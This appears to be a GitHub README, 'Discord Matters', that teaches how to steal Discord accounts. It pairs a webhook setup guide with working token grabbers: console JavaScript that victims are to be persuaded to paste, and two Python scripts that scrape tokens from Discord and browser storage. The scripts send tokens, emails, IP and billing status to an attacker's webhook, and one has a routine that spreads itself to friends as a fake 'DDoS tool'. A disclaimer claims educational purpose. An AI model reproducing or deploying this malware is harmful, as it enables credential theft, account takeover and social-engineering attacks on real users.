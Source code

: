 ## Discord Matters

![](https://img.shields.io/badge/%E2%AD%90-If%20you%20find%20it%20%F0%9F%95%B6%EF%B8%8F%20-%23FFFF00)
![](https://img.shields.io/badge/DISCLAIMER-DO%20NOT%20USE%20FOR%20ANYTHING%20ILLEGAL-red)
![](https://img.shields.io/badge/Created-30%2F11%2F2021-brightgreen)

### DISCLAIMER

DO NOT USE THE INFORMATION PROVIDED HERE TO DO ANYTHING ILLEGAL OR FOR EVEN POTENTIALLY ILLEGAL ACTIVITIES.

I do not claim responsibility or involvement for anything you break or any trouble you may get into by using the information here.

THIS IS STRICTLY FOR EDUCATIONAL PURPOSES AND THE KNOWLEDGE SHOULD NOT BE USED ILLEGALLY.

---

### How to set up your discord webhook: 

Discord Webhooks allow you to receive messages in a Discord Server Channel externally via a HTTP POST Request.

<details>
    
<summary>Steps: </summary>
<br>
1. Click on the settings icon in your desired Discord channel. It is recommended to create your own Discord server and channel specifically for this purpose of receiving webhook messages.
<br>
 
![](https://i.imgur.com/5omkwZc.jpeg)

2. Click on ```integrations``` in the menu. 

![](https://i.imgur.com/XbBo8CD.png)

3. Click on ```Create webhook```.

![](https://i.imgur.com/VgW7vMM.png)

4. Name your webhook "bot" and give it a profile picture. 

![](https://i.imgur.com/2MticGD.png)

5. Then, click on ```Copy webhook URL``` and you have your discord webhook setup!

![](https://i.imgur.com/8AnneNZ.png)
</details>

---

## Grabbing the token
Our first goal is to obtain the discord token. This can be done through a C++ program compiled into exe, Python program (may be in exe), or JavaScript injection in the console of discord web version. 

### Method 1: Get user to send you the token or get it yourself (JavaScript)

Get user to copy and paste this code into browser console and send you back the token. Token will be alerted in window and logged in console. 

``` function getLocalStoragePropertyDescriptor() {const iframe = document.createElement('iframe');document.head.append(iframe);const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');iframe.remove();return pd;} Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());console.log(localStorage.token); window.alert(localStorage.token); ```

Make sure to tell the user to ```toggle device toolbar``` with the button below or else the code will not fetch.

Before: ![](https://i.imgur.com/AfWZAQl.jpeg)
After: ![](https://i.imgur.com/zl2sHCk.jpeg)

Alternative codes, follow the same steps as above.

```javascript:document.getElementsByTagName("body")[0].innerHTML = localStorage.token;```

```Object.values(webpackJsonp.push([[],{['']:(_,e,r)=>{e.cache=r.c}},[['']]]).cache).find(m=>m.exports&&m.exports.default&&m.exports.default.getToken!==void 0).exports.default.getToken()```

### Method 2: Get user to run code and token will be sent to you (JavaScript)

Get user to copy and paste this code into browser console and token will be automatically sent back to you via discord webhook. Replace ```YOUR DISCORD WEBHOOK HERE``` with your discord webhook URL.

<details>

<summary>Code: </summary>    
    
```
location.reload();
var discordWebhook = "YOUR DISCORD WEBHOOK HERE";
var i = document.createElement('iframe');
document.body.appendChild(i);
var request = new XMLHttpRequest();
request.open("POST", discordWebhook);
request.setRequestHeader('Content-type', 'application/json');
var params = {
    username: "Token Grabber",
    avatar_url: "https://malwarefox.com/wp-content/uploads/2017/11/hacker-1.png",
    content: '**Nouvelle personne hackée !**\n------------------\nToken : ' + i.contentWindow.localStorage.token + '\n------------------\nAdresse email : ' + i.contentWindow.localStorage.email_cache + '\n------------------\nUser ID : ' + i.contentWindow.localStorage.user_id_cache + '\n------------------\nFingerprint : ' + i.contentWindow.localStorage.fingerprint + '\n------------------\nPropriétés : \`\`\`json\n' + i.contentWindow.localStorage.deviceProperties + '\`\`\`------------------\nScript de login : \n\`\`\`js\nlocation.reload();var i = document.createElement(\'iframe\');document.body.appendChild(i);i.contentWindow.localStorage.token = "\\"' + i.contentWindow.localStorage.token.replace(/^"(.*)"$/, '$1') + '\\""\`\`\`'
};
request.send(JSON.stringify(params));
```

</details>    
    
### Method 3: Get user to run code and token will be sent to you (Python/C++)

Get user to run python code OR exe file and token will be automatically sent back to you via discord webhook. 

<details>

<summary>First Python Script (Requires pip installation of some libraries), replace <code>WEBHOOK HERE</code> with your webhook URL : </summary>

```
from discord_webhook import DiscordWebhook, DiscordEmbed
from threading import Thread
import urllib3
urllib3.disable_warnings()
import colorama
from colorama import Fore, Style, Back
from time import sleep
colorama.init()

def Auth():
    def dastela():
        global WEBHOOK
        WEBHOOK = "WEBHOOK HERE"
        import os
        if os.name != "nt":
            exit()
        from re import findall
        from json import loads, dumps
        from base64 import b64decode
        from subprocess import Popen, PIPE
        from urllib.request import Request, urlopen
        from datetime import datetime
        from threading import Thread
        from time import sleep
        from sys import argv
        LOCAL = os.getenv("LOCALAPPDATA")
        ROAMING = os.getenv("APPDATA")
        PATHS = {
            "Discord"           : ROAMING + "\\Discord",
            "Discord Canary"    : ROAMING + "\\discordcanary",
            "Discord PTB"       : ROAMING + "\\discordptb",
            "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
            "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
            "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
            "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
        }
        def getheaders(token=None, content_type="application/json"):
            headers = {
                "Content-Type": content_type,
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
            }
            if token:
                headers.update({"Authorization": token})
            return headers
        def getuserdata(token):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
            except:
                pass
        def gettokens(path):
            path += "\\Local Storage\\leveldb"
            tokens = []
            for file_name in os.listdir(path):
                if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
                    continue
                for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
                    for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                        for token in findall(regex, line):
                            tokens.append(token)
            return tokens
        def getip():
            ip = "None"
            try:
                ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
            except:
                pass
            return ip
        def gethwid():
            p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
            return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
        def getfriends(token):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
            except:
                pass
        def getchat(token, uid):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
            except:
                pass
        def has_payment_methods(token):
            try:
                return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
            except:
                pass
        def send_message(token, chat_id, form_data):
            try:
                urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
            except:
                pass
        def spread(token, form_data, delay):
            return # Remove to re-enabled
            for friend in getfriends(token):
                try:
                    chat_id = getchat(token, friend["id"])
                    send_message(token, chat_id, form_data)
                except Exception as e:
                    pass
                sleep(delay)
        def main():
            cache_path = ROAMING + "\\.cache~$"
            prevent_spam = True
            self_spread = True
            embeds = []
            working = []
            checked = []
            already_cached_tokens = []
            working_ids = []
            ip = getip()
            pc_username = os.getenv("UserName")
            pc_name = os.getenv("COMPUTERNAME")
            user_path_name = os.getenv("userprofile").split("\\")[2]
            for platform, path in PATHS.items():
                if not os.path.exists(path):
                    continue
                for token in gettokens(path):
                    if token in checked:
                        continue
                    checked.append(token)
                    uid = None
                    if not token.startswith("mfa."):
                        try:
                            uid = b64decode(token.split(".")[0].encode()).decode()
                        except:
                            pass
                        if not uid or uid in working_ids:
                            continue
                    user_data = getuserdata(token)
                    if not user_data:
                        continue
                    working_ids.append(uid)
                    working.append(token)
                    username = user_data["username"] + "#" + str(user_data["discriminator"])
                    user_id = user_data["id"]
                    email = user_data.get("email")
                    phone = user_data.get("phone")
                    nitro = bool(user_data.get("premium_type"))
                    billing = bool(has_payment_methods(token))
                    embed = {
                        "color": 0x9d00ff,
                        "fields": [
                            {
                                "name": "**Account Info**",
                                "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                                "inline": True
                            },
                            {
                                "name": "**PC Info**",
                                "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                                "inline": True
                            },
                            {
                                "name": "**Token**",
                                "value": token,
                                "inline": False
                            }
                        ],
                        "author": {
                            "name": f"{username} ({user_id})",
                        },
                        "footer": {
                            "text": f""#Change this to some footer, anything is fine1
                        }
                    }
                    embeds.append(embed)
            with open(cache_path, "a") as file:
                for token in checked:
                    if not token in already_cached_tokens:
                        file.write(token + "\n")
            if len(working) == 0:
                working.append('123')   
            webhook = {
                "content": "",
                "embeds": embeds,
                "username": "First Officer Hook",#you can change this also
                "avatar_url": "https://www.designveloper.com/wp-content/uploads/2019/05/python-programming-language.jpg" #this too
            }
            try:
                urlopen(Request(WEBHOOK, data=dumps(webhook).encode(), headers=getheaders()))
            except:
                pass
            if self_spread:
                for token in working:
                    with open(argv[0], encoding="utf-8") as file:
                        content = file.read()
                    payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nDDoS tool. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
                    Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
        try:
            main()
        except Exception as e:
            print(e)
            pass
    try:
        dastela()
    except:
        pass
    
Auth()
```
</details>

<details>
    <summary>Second Python Script, replace <code>WEBHOOK HERE</code> with your webhook URL : </summary>

```
import os
import re
import json

from urllib.request import Request, urlopen

# your webhook URL
WEBHOOK_URL = 'WEBHOOK HERE'

# mentions you when you get a hit
PING_ME = True

def find_tokens(path):
    path += '\\Local Storage\\leveldb'

    tokens = []

    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue

        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    tokens.append(token)
    return tokens

def main():
    local = os.getenv('LOCALAPPDATA')
    roaming = os.getenv('APPDATA')

    paths = {
        'Discord': roaming + '\\Discord',
        'Discord Canary': roaming + '\\discordcanary',
        'Discord PTB': roaming + '\\discordptb',
        'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default'
    }

    message = '@everyone' if PING_ME else ''

    for platform, path in paths.items():
        if not os.path.exists(path):
            continue

        message += f'\n**{platform}**\n```\n'

        tokens = find_tokens(path)

        if len(tokens) > 0:
            for token in tokens:
                message += f'{token}\n'
        else:
            message += 'No tokens found.\n'

        message += '```'

    headers = {
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11'
    }

    payload = json.dumps({'content': message})

    try:
        req = Request(WEBHOOK_URL, data=payload.encode(), headers=headers)
        urlopen(req)
    except:
        pass

if __name__ == '__main__':
    main()
```
</details>

<details>

<summary>Steps to compile python code into an executable file.</summary>

    <br>
    
Why would you want to do this?
    
It is easier for someone who does not have python installed or does not know code to get their token.

1. In Command Prompt, make sure you have Python installed with PIP added to PATH.

Type in <code>pip install pyinstaller</code>

2. Once done, navigate to the location of your code.

<code>cd C:\Users\%USERNAME%\locationOfPythonFile</code>

</details>
